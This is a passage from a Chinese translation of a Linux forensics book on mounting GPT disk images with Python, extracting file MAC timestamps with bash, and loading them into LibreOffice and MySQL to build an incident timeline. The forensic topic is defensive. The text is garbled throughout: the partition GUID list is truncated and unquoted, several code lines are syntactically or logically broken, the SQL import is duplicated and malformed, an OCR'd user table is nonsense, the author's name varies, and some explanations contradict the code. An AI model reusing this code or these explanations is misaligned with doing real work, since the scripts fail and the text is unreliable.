现在我们已经涵盖了基于 MBR 方法的分区系统，让我们转向基于 GUID 的分区系统吧。希望在接下来的几年内，这将成为你在调查期间需要处理的唯一系统。正如我之前所说，这个新系统要直接且优雅得多。以下是我们自动挂载这些分区的脚本。


# mount-image-gpt.py

```python
#!/usr/bin/python

### mount-image-gpt.py

# 这是一个简单的 Python 脚本，将
# 尝试从镜像文件中挂载分区。
### 此脚本仅用于 GUID 分区。
### 镜像以只读方式挂载。

### 由 Dr. Phil Polstra (@ppolstra) 开发
### 为 PentesterAcademy.com
import sys
import os.path
import subprocess
import struct
### 支持的分区类型的 GUID
supportedParts = ["E0DB00A2-B9E5-4433-87C0-68B7269C7C9", "37AFC090-EF7D-4E96-1C3D-27AE055B1744", "0FC63DAF-8483-4772-8E79-36D98477DE4E", "8DA63339-0007-60C0-C436-083AC823090A",
"AC378E1-2EB4-4F13-BB44-0E14E2AF915", "4479540-F297-B12-9AF7-D13D5F0458A", "6F8BC3E-E8CD-4D1-96E7-ECBF948B709", "B21B0A45-1DF0-41C3-AF44-46F280D3FAE", "3B8F425-2E50-4F3B-907-1A25C47698E5", "6D06379-F507-44C2-A23C-238F2A309712B", "516E7CB84-66CF-11D6-8FF8-00022D09712B", "83D6B9D-7F41-11D6-CE0B-0156B84F0F", "516E7CB5-B6CF-11D6-8FF8-00022D09712B", "85D5E45A-237C-11E1-B4B3-E89A8F7CA37", "516E7CB4-66CF-11D6-8FF8-00022D09712B", "824CC70-36A8-11E3-89A0-52519AD3F61", "55465300-0000-11AA-A11-00306543ACE3", "516E7CB5-66CF-11D6-8FF8-00022D09712B", "49F8D5A-B10E-11DC-B99B-0019D179684", "49F4BD82-B10E-11DC-B99B-0019D179684", "2DB519C4-B10F-11DC-B99B-0019D179684", "2DB519EC-B10E-11DC-B99B-0019D179684", "49F4D8AA-B10E-11DC-B99B-0019D179684", "42F6GF74-0000-11AA-A11-00306543ACE3", "48465300-0000-11AA-A11-00306543ACE3", "52414944-0000-11AA-A11-00306543ACE3", "52414944-0000-11AA-A11-00306543ACE3", "4C612625-0000-11AA-A11-00306543ACE3", "6A82CB45-10D2-11D2-99A6-08002073661", "6A85CF4D-10D2-11D2-99A6-08002073661", "6A988CC3-10D2-11D2-99A6-08002073661", "6A8B642B-10D2-11D2-99A6-08002073661", "6A8EF2E9-10D2-11D2-99A6-08002073661, "69A0BA39-10D2-11D2-99A6-08002073661, "6A9283A5-10D2-11D2-99A6-08002073661, "758941C3-AEB-11D3-B7C1-7B0300, "E2A1E728-32E3-11D6-A682-7B0300, "BC13C2FF-59E6-4262-A352-B275D6F172, "42465331-BA33-10F1-80A2-486196752, "33AA1E2A-400F-11DB-9590-00022911DB8, "9198EFF-31C0-11DB-B87F-00022911DB8, "9D275380-40AD-11DB-BF97-00022911DB8, "A1D98B0F-0F5C-4D3B-A006-743F0F8491E

### 打印 GUID 的简单辅助函数
### 注意它们都是小端/大端格式
def printGuid(packedString):
    if len(packedString) == 16:
        outstr = format(struct.unpack('<L',
            packedString[0:4])[0], 'X').zfill(8) + "-" +
            format(struct.unpack('<H',
            packedString[4:6])[0], 'X').zfill(4) + "-" +
            format(struct.unpack('<H',
            packedString[6:8])[0], 'X').zfill(4) + "-" +
            format(struct.unpack('<Q',
            packedString[8:10])[0], 'X').zfill(4) + "-" +
            format(struct.unpack('>Q',
            "\x00\x00" + packedString[10:16])[0], 'X').zfill(12)
    else:
        outstr = "<invalid"
    return outstr

### GptRecord 类

### 解析 GUID 分区条目
# 用法: rec = GptRecord(recs, partno)
# recs 是包含所有 128 个条目的字符串
### partno 是感兴趣的分区号 (0-127)
### rec.printPart() 打印分区信息

class GptRecord:

    def __init__(self, recs, partno):

        self.partno = partno

        offset = partno * 128

        self.empty = False

        # 构建分区类型字符串

        self.partType = printGuid(recs[offset:offset+16])

        if self.partType == "00000000-0000-0000-000000000000":

            self.empty = True

        self.partGuid = printGuid(recs[offset+16:offset+32])

        self.firstLBA = struct.unpack('<Q',

            recs[offset+32:offset+40])[0]

        self.lastLBA = struct.unpack('<Q',

            recs[offset+40:offset+48])[0]

        self.attr = struct.unpack('<Q',

            recs[offset+48:offset+56]) [0]

        nameIndex = recs[offset+56:offset+128].find('\x00\x00')

        if nameIndex != -1:

            self.partName = \
            recs[offset+56:offset+nameIndex].encode('utf-8')

        else:

            self.partName = \
            recs[offset+56:offset+128].encode('utf-8')

    def printPart(self):

        if not self.empty:

            outstr = str(self.partno) + ":" + self.partType +
                ":" + self.partGuid + ":" + str(self.firstLBA) +
                ":" + str(self.lastLBA) + ":" +
                str(self.attr) + ":" + self.partName

        print(outstr)
```


# MbrRecord 类：从主引导记录 (MBR) 解码分区记录

用法: `rec = MbrRecord(sector, partno)`

`sector` 是包含 MBR 的 512 字节扇区

`partno` 是感兴趣的分区号 `0-3`

`rec.printPart()` 打印分区信息

```python
class MbrRecord():

    def __init__(self, sector, partno):

        self.partno = partno

        # 偏移 446 处的第一个记录为 16 字节

        offset = 446 + partno * 16

        self.active = False

        # 首字节为 0x80 (启动)

        if sector[offset] == '\x80':

            self.active = True

        self.type = ord(sector[offset+4])

        self.empty = False

        # 分区类型 == 0 表示为空

        if self.type == 0:

            self.empty = True

        # 值为 32 位并以小端格式存储

        self.start = struct.unpack('<I', sector[offset + 8:
            offset + 12])[0]

        self.sectors = struct.unpack('<I', sector[offset + 12:
            offset + 16])[0]

    def printPart(self):

        if self.empty:

            print("<empty>")

        else:

            outstr = ""

            if self.active == "Bootable":

                outstr += "Type " + str(self.type) + ":"

            outstr += "Start " + str(self.start) + ":"

            outstr += "Total sectors " + str(self.sectors)

        print(outstr)
```

```python
def usage():

    print("usage " + sys.argv[0] + " <image file>\n尝试从镜像文件中挂载分区")

    exit(1)

def main():

    if len(sys.argv) < 2:

        usage()

    # 读取第一个扇区

    if not os.path.isfile(sys.argv[1]):

        print("File " + sys.argv[1] + " 无法读取")

        exit(1)

    with open(sys.argv[1], 'rb') as f:

        sector = f.read(512)

        if (sector[510] == "\x55" and sector[511] == "\xaa"):

            # 保护性 MBR 状态检查

            part = MbrRecord(sector, 0)

            if part.type != 0xee:

                print("保护性 MBR 检查失败")

                exit(1)

        # 检查头作为检查

        with open(sys.argv[1], 'rb') as f:

            f.seek(512)

            sector = str(f.read(512))

            if sector[0:8] != "EFI PART":

                print("您似乎缺少 GUI 头")

                exit(1)

        print("找到保护性 MBR 和 GPT 分区表")

        with open(sys.argv[1], 'rb') as f:

            f.seek(1024)

            partRecs = str(f.read(512 * 32))

        parts = []

        for i in range(0, 128):

            p = GptRecord(partRecs, i)

            if not p.empty:

                p.printPart()

                parts.append(p)

        for p in parts:

            if p.partType in supportedParts:

                print("分区 %s 似乎支持，正在尝试挂载" + str(p.partno))

                mountpath = '/media/part%s' % str(p.partno)

                if not os.path.isdir(mountpath):

                    subprocess.call(['mkdir', mountpath])

                mountopts = 'loop,noatime, offset=%s' + str(p.firstLBA * 512)

                subprocess.call(['mount', '-o', mountopts, sys.argv[1], mountpath])

if __name__ == "__main__":

    main()
```

```python
format(struct.unpack('>x00', 
"\x00\x00" + packedString[10:16]]) [0], 'X').zfill(12)
```

```python
else:
    outstr = "<invalid"
return outstr
```

此辅助函数使用了与之前脚本中相同的 `struct.pack` 方法。不同之处在于，GUID 的前三部分是以小端序（little endian）格式存储的，最后两个部分是大端序（big endian）格式。这就是为什么前三次调用 `struct.pack` 时其格式字符串中包含 `<`，而后两次包含 `>`。此外，最后的解包（unpack）看起来可能有点奇怪。我所做的只是在值前面添加前导零字节，因为没有针对 6 字节值的解包说明符，但有针对 8 字节值的说明符。

我们在该辅助函数中引入了一个新函数 `format`。顾名其意，`format` 用于以特定的方式打印值。我们选择的格式 `'X'` 表示大写十六进制。一旦我们得到了一个包含该值的字符串，就会对该字符串运行 `zfill()` 来添加前导零，以便我们的 GUID 能够正确打印。示例中，表达式 `format(struct.unpack('<L', '\x04\x00\x00\x00') [0], 'X').zfill(8)` 的结果为字符串 `'00000004'`。

我们定义了一个 `Gptrd` 类，它的行为与之前脚本中的 `MbrClass` 相同。它期望一个分区表项列表（128 个）和一个指向该表的索引。该类中只有以下几行需要解释：

```python
nameIndex = recs[offset+56:offset+128].find('\x00\x00')

if nameIndex != -1:
    self.partName = \
    recs[offset+56:offset+56+nameIndex].encode('utf-8')
else:
    self.partName = \
    recs[offset+56:offset+128].encode('utf-8')
```


为什么这些行在这里在这里？我发现，有时 GPT 中用于存储分区名的 Unicode 字符串是空终止的（带有 `0x00 0x00`），在终止空字符之后可能会有随机的垃圾数据。此代码片段的第一行用于查找名称中是否存在空字符。如果找到了字符串，`nameIndex` 将被设置为它的位置。如果未找到字符串，`find` 函数将返回 `-1`。查看 `if` 块你会发现，如果发现了空字符，我们只使用其之前的字符来存储分区名。否则，我们存储整个名称。

`MbrRecord` 类仍然存在。该类用于读取保护性 MBR 以进行完整性检查（sanity check）。你会发现主函数的启动方式与之前相同：读取第一个扇区并使用 `MbrRecord` 对其进行解析。第二个完整性检查会导致：如果第一个分区的类型不是 `0EE`（这表示 GPT 驱动器），则脚本将退出。

第三个完整性检查读取第二个扇区中的 GPT 头部，并检查字符串 "EFI PART"，该字符串应该存储在该扇区的几个字节中。如果此最终检查通过，将重新打开索引并读取包含 128 个 GPT 条目的后续 32 个扇区。

我们在代码中使用了一种新类型的 `for` 循环：

```python
for i in range(0, 128):
    p = GptRecord(recs)
    if not p.empty:
        p.print()
        parts.append(p)
```

现在，我们不是遍历列表或元组，而是使用显式的数字范围。Python 中的 `range(n,m)` 创建一个在 `[n, m]` 范围内的不可变整数列表。这通常被称为半开区间（half open range）。`n` 包含在范围 `[` 中，而 `m` 不包含（用 `)` 表示）。例如，`range(0, 5)` 求值结果为元组 `(0, 1, 2, 3, 4)`。非空分区会被打印并添加到 `parts` 列表中。你可能会奇怪，为什么我一旦遇到空记录后没有停止。在中间出现 GPT 条目是有效的，虽然有些不寻常。

一旦解析了 GPT，我们就遍历 `parts` 列表并尝试挂载任何支持的分区。使用的方法与之前的脚本相同。运行此脚本的结果如图 5.14 所示。注意，此脚本特意在没有 root 权限的情况下运行，因此如果镜像损坏，挂载将会失败。


图 5.14 从镜像中挂载基于 GUID 的分区。注意：脚本特意在没有 root 权限的情况下运行，以防止挂载损坏的镜像。

### 总结

在本章中涵盖了大量内容。我们讨论了挂载镜像文件中不同类型分区的基础知识。在讨论过程中，某些读者可能学习了一些 Python，我们讨论了如何使用 Python 来自动化这一过程。在下一章中，我们将讨论如何调查从你的磁盘挂载的文件系统。

### 分析挂载的镜像

本章包含信息：
- 从镜像中获取元数据
- 在调查中使用 LibreOffice
- 创建时间线
- 提取 bash 历史记录
- 提取登录信息和登录尝试

### 获取修改、访问和创建时间戳

现在你已经挂载了镜像，整套 Linux 系统工具都可以供你使用。你可能想做的第一件事之一就是创建一个时间线。至少你可能想检查像 `/sbin` 和 `/bin` 这样的常用目录。自然，我们仍然可以使用脚本来帮助这一过程。下面的脚本将从给定目录提取修改、访问和创建（MAC）时间，并以分号分隔的值输出，以便导入到电子表格或数据库。

```bash
#!/bin/bash
### getmacs.sh
### 从镜像提取 MAC 时间的简单脚本
### 用于导入电子表格或数据库。
### 由 PentesterAcademy 的 Phil Strauss 开发
usage () {
    echo "usage: $0 <starting directory>"
    echo "从镜像提取 MAC 时间的简单脚本"
    exit 1
}
if [ $# -lt 1 ]; then
  usage
fi
```

### 分号分隔的文件更容易导入
`printf` 输出访问日期、访问时间、修改日期、修改时间、创建日期、创建时间、权限、用户 ID、用户 ID、文件大小、文件名和换行

```bash
olddir=$(pwd)
cd "$1" # 这避免了在文件名前面加上挂载点
printf "Access Date;Access Time;Modify Date;Modify Time;Create Date:\nCreate Time;Permissions;User ID;Group ID;File Size;Filename\n"
find . -printf "%Ax;%AT;%TT;%Cx;%Ct;%U;%G;%p\n"
cd "$olddir"
```

该脚本非常直接，不包含之前讨论过的新技术。你可能好奇的是使用 `olddir=$(pwd)` 保存当前目录，切换到指定目录，最后通过 `cd $olddir` 返回。这样做是为了防止完整路径（包括挂载点）添加到输出的每个文件名之前。

针对目标系统运行此脚本的部分结果如图 6.1 所示。通常你需要将结果保存到文件中：`getmacs` (目标文件系统的挂载点) > [输出文件]。例如，`getmacs /media/part0 > pfel.csv`。



图 6.1 为电子表格或数据库获取元数据。

## 将信息导入 LibreOffice

之前脚本的输出可以很容易地导入 LibreOffice Calc 或其他电子表格。只需打开分号分隔的文件即可。你需要指定用于分隔值的符号（我们使用分号），并应该如图 6.2 所示选择日期列使用的格式。



图 6.2 将分号分隔的文件导入 LibreOffice。注意日期列应格式化为日期，如所示。


图 6.3 按访问时间对电子表格进行排序。

在我们对电子表格进行排序后，更容易看到相关的活动，或者至少是在同一时间段被访问的文件，这些文件可能与攻击者的操作有关。图 6.4 中高亮的行显示了一个在 `john` 账户访问时被下载的 rootkit。



图 6.4 按访问时间排序的电子表格，可以清楚地看到 rootkit 的下载和安装。

### 在 MySQL 中导入数据

将我们的数据导入电子表格是一个简单的过程。然而，当目标文件大小很大时，性能确实会受到影响。此外，这种方法也没有限制。要创建一个将修改、访问和创建时间都显示在单一时间轴上的时间并不是容易的。你可以使用 Autopsy 创建一个主体文件，但我发现性能仍然不足，而且这远没有在适当的数据库中拥有一切灵活。

如果你的系统中尚未安装 MySQL，添加它非常简单。对于基于 Debian 和 Ubuntu 的系统，`sudo apt-get install mysql-server` 应该是你需要的全部。一旦安装了 MySQL，你就想要创建一个数据库。为了保持整洁，我建议为每个案例创建一个新数据库。创建新数据库的命令简单为 `mysqladmin -u <user>-p create <database name>`。例如，如果我想以 root 用户登录（这并不与系统上的 root 用户相同）并为 `case-pfel` 创建一个数据库，我将输入 `mysqladmin -u root create case-pfel`。`-p` 选项意味着提示我输入密码（在命令行中传递密码是非常不安全的做法，因为这很容易被拦截）。用户登录信息在安装 MySQL 时应该已经设置。

一旦创建了数据库，就可以添加一些表了。做此最简单的方法是使用 `mysql -u <user> -p` 启动 MySQL 客户端，即 `mysql -u -p`。你尚未连接到你的数据库。要解决这个问题，请在 MySQL 客户端 shell 中执行 `connect <database>` 命令。例如，在我的案例中，我将输入 `connect case-pfel`。登录 MySQL 并连接到数据库如图 6.5 所示。



使用 MySQL 客户端登录并连接到数据库。

以下 SQL 代码将创建一个数据库表，可用于导入由 shell 脚本生成的文件的分号分隔值。此脚本可以保存到文件中并在 MySQL 客户端中执行。将其剪切粘贴到 MySQL 中同样简单。

```sql
create table files (
AccessDate date not null,
AccessTime time not null,
```


```
ModifyDate date not null,

ModifyTime time not null,

CreateDate date not null,

CreateTime time not null,

Permissions smallint not null,

UserId smallint not null,

GroupId smallint not null,

FileSize bigint not null,

Filename varchar(2048) not null,

recno bigint not null auto_increment,

primary key(recno)
)
```

我们可以看到这是一个相当简单的表。所有的列都声明为 `not null`（非空），这意味着它们不能为空。对于不熟悉 MySQL 的读者，最后两行可能需要一些解释。第一行创建了一个列 `recno`，它是一个长整数，并设为在每次插入新行时自动递增计数器。在下一行中，`recno` 被设置为主键。主键用于对表进行排序和快速检索信息。

创建此表如图 6.6 所示。注意到 MySQL 报告 0 行受影响，这是正确的。添加表并不会在其中创建任何行（记录）。



### 图 6.6
在 MySQL 中创建一个表来存储文件元数据。

现在数据有地方可以去了，就可以从我们的 shell 脚本导入信息了。MySQL 有一个 `load data infile` 命令可以用于此目的。在运行此命令之前，必须解决一个小的复杂问题。文件中的数据字符串在插入数据库之前，必须转换为正确的日期对象。这就是以下脚本 `set` 子句中发生的情况。还有一行读取 `ignore 1 rows`，它告诉 MySQL 忽略我们文件顶部的表头，以便导入电子表格。

```sql
load data infile '/tmp/case-pfel.csv'

into table files

fields terminated by ';'

enclosed by '"'

lines terminated by '\n'

ignore 1 rows

(@AccessDate, AccessTime, @ModifyDate, ModifyTime, @CreateDate, \
CreateTime, Permissions (UserID, GroupID, FileSize, Filename)

set AccessDate=str_to_date(AccessDate, "%m/%d/%Y"),

ModifyDate=str_to_date(@ModifyDate, "%m/%d/%Y"),

CreateDate=str_to_date(@CreateDate, "%m/%d/%Y");
```


`load data infile '/tmp/case-pfel.csv'`
`into table files`
`fields terminated by ';'`
`enclosed by '"'`
`lines terminated by '\n'`
`ignore 1 rows`
`(@AccessDate, AccessTime, @ModifyDate, ModifyTime, @CreateDate, \`
`CreateTime, Permissions (UserID, GroupID, FileSize, Filename)`
`set AccessDate=str_to_date(AccessDate, "%m/%d/%Y"),`
`ModifyDate=str_to_date(@ModifyDate, "%m/%d/%Y"),`
`CreateDate=str_to_date(@CreateDate, "%m/%d/%Y");`

这段代码比我们元数据文件的导入过程要简单一点。主要原因是没有日期或其他复杂的对象需要转换。你会注意到，我使用了用户名而不是用户 ID 作为用户表的主键。之所以这样做，是因为如果攻击者添加了一个具有具有重复 ID 的账户，导入将会失败，因为主键必须是唯一的。攻击者创建一个相同 ID 的新账户并不罕见，特别是对于 root 用户的 ID 0 而言更是如此。通过执行上述脚本来加载这两个表的结果如图 6.10 所示。



图 6.10

现在用户信息已经导入，我可以执行一些简单的查询。查看每个用户正在使用什么 shell 可能会很有用。攻击者可能会更改账户的 shell 以允许登录。此类账户通常的登录 shell 为 `/usr/sbin/nologin` 或 `/bin/bash`。执行查询 `select * from users order by uid;` 的结果如图 6.11 所示。结果显示攻击者创建了一个虚假的 johnn 账户。

| | | 62534 | Herret Cars Tracking D. | | | | | | |
|---|---|---|---|---|---|---|---|---|---|
| seracos | | 120 | 62534 | | | | | | |
| willi | | 127 | | Hall, m. | | | | | |
| saner | | 120 | | | | | | | | |
| any | | 119 | | | | | | | | |
| speeddastener | | 120 | | Street Dempsey | | | | | | |
| speed.w | | 118 | | | | | | | | |
| lighten | | 120 | | Light's Bakery | | | | | | |
| lford | | 119 | | | | | | | | | |
| polist | | 114 | | 7 Will system, set. | | | | | |
| u | | 118 | | | | | | | | |
| tord | | 120 | 62534 | | | | | | | |
| shaka | | 119 | | | | | | | | |
| jora | | 120 | 62534 | Jack South. | | | | | | |
| m | | 117 | | | | | | | | | |
| recopy | | 62534 | 62534 | nobody | | | | | |

图 6.11

从数据库中选择用户。注意由攻击者创建的虚假 johnn 账户。

如果攻击者重用了用户 ID，很容易被发现。除了查看上一个查询的结果以按用户 ID 排序的所有用户外，任何查询都会立即让你知道是否存在重复 ID。`select distinct uid from users;` 返回的行数应与上一个查询相同（在目标系统中为 38 行）。如果返回的行数较少，则存在重复。

查看组文件（group file）信息是否有价值？有的。组文件包含属于每个组的用户列表。如果攻击者将自己添加到某个组，它将会新显示出来。sudo 或 wheel 组（用于决定谁获得 root 权限，具体的组和机制随不同的 Linux 发行版而异）特别有趣。如果你认为攻击者已经获得了 root 权限，即使仅知道合法用户在这些组中也有帮助。运行查询 `select * from groups by group;` 的结果如图 6.12 所示。从这些信息来看，john 账户具有管理权限。如果没有重复的组号，`select distinct gid from groups;` 返回的行数应该相同。

### 图 6.12

检查组文件信息。

让我们回到文件表（files table）。毕竟，我们说说导入用户和组的目的是显示正确的信息。为了在查询中显示用户名，我们必须进行数据库连接（join）。如果你不是 SQL 专家，不要担心，这里需要的连接非常简单。我们只是从多个表中进行查询，并提供一个连接（关联）各个表中行的行的条件。

如果我们想在之前的文件表查询中添加用户名，类似下面的语句将会生效：`select accessdate, accsetime, filename, permissions, username from files, users where files.userid=users.uid order by accessdate desc, accsetime desc.`。我们更改了什么？我们从通用的 select 变成了显式的列列表。在 `from` 子句中增加了第二个表。最后，我们有一个连接子句，其中 `files.userid=users.uid` 决定了使用用户表中的哪行来检索用户名。如果列表中的任何列名在两个表中都存在，你必须在名称前加上 `<table>` 前缀以告诉 MySQL 使用哪个表。运行此查询的结果如图 6.13 所示。

### 6.13

在文件表上执行带有用户用户名的查询结果。

注意图 6.13 显示了一个正在编辑的文本文件。在这里我们使用了 MySQL 客户端的一个有用功能：`tee <logfile>` 命令。该命令与 shell 命令类似。

### 创建时间线

正如我们之前提到的，要使用简单的电子表格创建一个将访问、修改和创建时间交织在一起的时间线并不容易。然而，通过我们的数据库，这可以很容易地实现。下面的 Shell 脚本（主要是一个 SQL 脚本）将在数据库中创建一个新的时间线表。该时间线表将允许我们快速地进行时间线分析。

```bash
#!/bin/bash

### create-timeline.sh

### 在数据库中创建时间线的简单 shell 脚本。

# 为 PentesterAcademy 开发，

### Dr. Phil Polstra (@ppolstra)

usage () {

  echo "usage: <database>"

  echo "在数据库中创建时间线的简单脚本"

  exit 1

}

if [ $# -lt 1 ]; then

  usage

fi

cat << EOF | mysql $1 -u root -p

create table timeline (

  Operation char(1),

  Date date not null,

  Time time not null,

  recno bigint not null

);

insert into timeline (Operation, Date, Time, recno)

